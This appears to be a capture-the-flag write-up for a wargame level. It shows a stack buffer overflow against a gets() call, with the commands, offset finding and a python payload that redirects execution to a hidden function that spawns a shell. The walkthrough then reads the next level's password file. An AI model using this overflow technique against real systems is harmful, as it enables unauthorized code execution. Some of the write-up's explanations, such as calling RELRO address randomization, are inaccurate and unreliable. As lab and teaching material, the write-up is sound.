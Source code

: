 ```shell
$> ls -la
[...]
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
[...]

$> ./level1
input: test

# program only asks for input and nothing happens
```

```shell
$> checksec --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1

# RELRO     : Address randomization
# CANARY    : stack overflow protection
# NX        : Data Execution Prevention.
# PIE       : code address randomization
# Here we have no RELRO, no CANARY, no NX and no PIE to execute the program.

$> gdb level1
(gdb) set disassembly-flavor intel
(gdb) disas main
    [...]
    0x08048490 <+16>:    call   0x8048340 <gets@plt>
    [...]

# main contains a call to gets and nothing else
```

```shell
$> objdump -d level1
[...]
08048444 <run>:
    [...]
804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
    [...]
[...]
08048480 <main>:
[...]

# program contains a function named run that calls fwrite and system
```

gets() is a dangerous function because it reads from stdin and ends with a newline.  
So it is not safe because it should be overflowed.  

Let's do a classic overflow attack with gets.  
Use [this](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to found the offset of the EIP.

```shell
$> gdb level1
(gdb) r
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

# to arrive the next instruction (EIP), we need put 76 bytes of data.

$> python -c "print 'a' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)

# 08048444 reverses the order of the bytes, because it is a little endian machine
# Shell is not called but a segmentation fault ...
# execute with pipe is a non-interactive mode so system() is called but shutdown immediately
# to let execute become interactive we can use 'cat -'

$> python -c "print 'a' * 76 + '\x44\x84\x04\x08'" > /tmp/exploit

$> cat /tmp/exploit - | ./level1
Good... Wait what?
input: whoami
level2
input: cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```